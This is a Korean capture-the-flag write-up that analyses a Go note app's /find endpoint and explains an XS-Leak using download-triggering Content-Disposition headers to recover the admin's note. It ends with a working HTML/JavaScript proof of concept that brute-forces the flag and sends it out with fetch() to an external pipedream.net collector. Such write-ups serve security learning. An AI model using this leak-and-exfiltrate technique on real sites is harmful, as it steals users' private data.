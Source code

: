 ```go
```
`/find` 기능은 사용자가 저장한 메모가 존재하는 지 없는 지 찾은 후에, 존재/미존재를 분기로 처리하는 로직입니다.

- Information

1. condition 값을 가져와서 str 변수에 저장합니다.
2. 만약 에러가 났다면 which 변수에 `"any"`라는 문자열을 넣어주고, 에러가 나지 않았다면 우리가 입력한 condition의 값을 which에 넣어줍니다.
3. startsWith 값을 가져와서 str 변수에 저장합니다.
4. 에러가 나지 않았다면 `strings.HasPrefix()` 메서드를 이용해서 `startsWith` 값을 x의 값과 비교하는 것을 볼 수 있습니다. ( 이때 x의 값은 현재 사용자가 저장한 노트 값이고, `strings.HasPrefix()` 메서드는 자바스크립트에서 includes()와 동일 합니다. )
5. endsWith 값을 가져와서 str 변수에 저장합니다.
6. 에러가 나지 않았다면 `strings.HasSuffix()` 메서드를 이용해서 `endsWith` 값을 x의 값과 비교하는 것을 볼 수 있습니다. ( 이때 x의 값은 현재 사용자가 저장한 노트 값이고, `strings.HasSuffix()` 메서드는 자바스크립트에서 includes()와 동일 하지만 뒤에서부터 검사합니다. )
7. start/end 로직이 끝나면 여러 분기 별로 처리하는 것을 볼 수 있는데, 이때 모든 분기와 일치하지 않는 다면 debug 값을 가져와서 \_와 present에 넣는 것을 볼 수 있습니다. 이때 present에는 true가 들어갑니다.
8. presend의 값이 true 이면 `debug`, `startWith`, `endsWith`, `condition` 파라미터를 모두 지우고, 다른 파라미터가 있다면 해당 파라미터를 기반으로 `Header()` 메서드를 이용해서 응답 헤더를 설정하는 것을 볼 수 있습니다.
9. 모든 처리가 끝나면 `headerSetter()` 함수를 이용해서 응답 헤더를 설정하고, Fprintf() 함수를 이용해서 출력하는 것을 볼 수 있습니다.

여기서 중요한 부분은 우리가 입력한 값과 노트의 값이 일치 하지 않으면 else 문 내부에 들어가는데, 여기서 응답 헤더 하나를 우리가 설정할 수 있다는 것 입니다. 우린 아까 위에서 `Download Trigger`에 대해서 배웠는데, 엔드포인트에서 `Content-Disposition: attachment` 헤더를 설정해서 반환하면 브라우저는 첨부 파일을 탐색하고 파일을 설치 한다는 것을 배웠습니다.

그럼 우리가 입력한 값과 노트의 값이 일치 하지 않을 때는 `Content-Disposition: attachment` 헤더를 설정해 파일이 다운로드 되게 하고, 우리가 입력한 값과 노트의 값이 일치하면 파일은 다운로드 하지 않게 만들 수 있고, 이를 이용하면 XS-Leak 공격을 이용해 노트 값을 파악할 수 있습니다.

그러므로 봇을 이용해 `/find`로 요청을 보내면 `id` 값은 관리자의 `id` 이므로 노트의 값으로 플래그가 들어올 것 이고, 이를 XS-Leak 공격을 이용해서 플래그를 획득할 수 있습니다.

![image](https://user-images.githubusercontent.com/49112423/129488305-9cb0ce17-2495-4db8-8b46-bd82eb8ba3c3.png)

분석한 `/find` 로직을 확인하기 위해 위와 같이 메모를 작성했습니다. 

![image](https://user-images.githubusercontent.com/49112423/129488320-fbd08b0b-ff14-4b85-ae4c-007499638885.png)
![image](https://user-images.githubusercontent.com/49112423/129488348-72e7814b-8385-40fa-b007-56cf503173c3.png)

확인을 해보니 입력값과 노트 값이 일치하면 노트 값이 출력이 되고, 일치 하지 않으면 파일이 다운로드 되는 것을 확인할 수 있었습니다. 이제 이를 이용해 플래그를 획득하면 될 거 같습니다.

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Notepad 1.5 - Arthur's Article Poc</title>
    </head>
    <body>
        <script>
            const string = "abcdefghijklmnopqrstuvwxyz1234567890~}{!@$%^*)(_+";

            let flag = 'inctf{';

            function xs(flag, str) {
                let url = `http://chall.notepad15.gq:1515/find?condition=starts&debug&Content-Disposition=attachment&startsWith=${flag + str}`;
                const MyWindow = window.open(url);
                setTimeout(() => {
                    try{
                        MyWindow.origin;
                    } catch (err) {
                        flag += str;
                        fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/" + flag)
                        broute_force(flag);
                    }
                }, 1000);
            }
            function broute_force(flag) {
```